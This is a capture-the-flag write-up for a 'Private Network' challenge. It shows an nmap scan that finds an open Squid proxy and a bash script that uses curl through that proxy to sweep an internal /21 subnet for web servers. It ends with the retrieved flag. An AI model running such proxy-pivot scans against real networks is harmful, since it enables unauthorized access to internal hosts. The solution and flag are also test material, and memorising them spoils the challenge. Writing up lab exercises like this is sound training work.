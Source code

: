 # Private Network

Hi Expert,

the archaeologists have found some network scheme (we suppose that mentioning the ancient cave painting was just a joke) and they think that there exists some very important web server in network `10.20.32.0/21`. The same scheme indicates that IP address `78.128.216.8` should be used to get access to private network. Get the data from above mentioned web server.

Good Luck!

---

Scan the host:
```
$ nmap 78.128.216.8
..
PORT     STATE SERVICE
3128/tcp open  squid-http
```

[Squid](http://www.squid-cache.org/) is a caching proxy. We can use it to get access into the private network.

Based on the challenge description, we are looking for a web server.
There are 2048 IP addresses to scan (subnet mask is `/21`).
I [converted the CIDR notation](http://magic-cookie.co.uk/iplist.html) to a range of IP addresses:
```
10.20.32.0
10.20.32.1
10.20.32.2
10.20.32.3
10.20.32.4
..
10.20.39.254
10.20.39.255
```

File [ips.txt](ips.txt) contains all the IPs.

Next, I created a simple bash script to check for a running web server on each IP:
```shell
#!/bin/bash
# scan-ips.sh

cat ips.txt | while read ip
do 
  http_code=$(curl -s -o /dev/null -w "%{http_code}\n" --proxy http://78.128.216.8:3128 http://$ip/)
  if [ $http_code -ne 403 ]; then
       echo "$ip: $http_code"
  fi
done
```

The important part is to use _curl_ with the proxy server.

Run the script:
```
$ ./scan-ips.sh
10.20.35.11: 200
```

That looks good. Finally, call the server:
```
$ curl --proxy http://78.128.216.8:3128 10.20.35.11
<html>
        <h2> It took a long time, flag is FLAG{XG5T-WLWl-HqjH-2E7V}</h2>
</html>
```